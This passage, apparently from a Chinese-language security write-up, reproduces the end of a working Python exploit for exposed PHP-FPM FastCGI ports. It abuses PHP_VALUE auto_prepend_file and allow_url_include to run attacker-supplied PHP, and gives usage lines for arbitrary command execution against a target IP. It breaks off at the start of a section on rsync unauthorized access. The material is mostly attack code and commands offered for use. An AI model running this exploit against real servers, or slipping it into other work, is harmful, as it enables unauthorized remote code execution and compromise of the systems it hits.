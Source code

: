 ```
    parser.add_argument('-c', '--code', help='What php code your want to execute', default='<?php phpinfo(); exit; ?>')
    parser.add_argument('-p', '--port', help='FastCGI port', default=9000, type=int)
 
    args = parser.parse_args()
 
    client = FastCGIClient(args.host, args.port, 3, 0)
    params = dict()
    documentRoot = "/"
    uri = args.file
    content = args.code
    params = {
        'GATEWAY_INTERFACE': 'FastCGI/1.0',
        'REQUEST_METHOD': 'POST',
        'SCRIPT_FILENAME': documentRoot + uri.lstrip('/'),
        'SCRIPT_NAME': uri,
        'QUERY_STRING': '',
        'REQUEST_URI': uri,
        'DOCUMENT_ROOT': documentRoot,
        'SERVER_SOFTWARE': 'php/fcgiclient',
        'REMOTE_ADDR': '127.0.0.1',
        'REMOTE_PORT': '9985',
        'SERVER_ADDR': '127.0.0.1',
        'SERVER_PORT': '80',
        'SERVER_NAME': "localhost",
        'SERVER_PROTOCOL': 'HTTP/1.1',
        'CONTENT_TYPE': 'application/text',
        'CONTENT_LENGTH': "%d" % len(content),
        'PHP_VALUE': 'auto_prepend_file = php://input',
        'PHP_ADMIN_VALUE': 'allow_url_include = On'
    }
    response = client.request(params, content)
    print(force_text(response))
```

**使用**

```
使用命令执行一个默认存在的php文件
python fpm.py your-ip /usr/local/lib/php/PEAR.php
任意命令执行
python fpm.py 192.168.1.7 /usr/local/lib/php/PEAR.php -c '<?php echo `pwd`; ?>'
```

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDCokMqhbRcU8I4mRYib8zsUadFHZ8rEp6Jzgr8UVDbeIJ3y3dSfFPxDzxrmicNGTzWeibe05sEUF35Iw/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDCokMqhbRcU8I4mRYib8zsUaYn06OtVIDTnhaJ1AYJej48qMJicmGnoQo9nsYuWgdCGcoiabTZQODHLA/640?wx_fmt=png)

**rsync 未授权访问漏洞  
**

**漏洞简介  
**
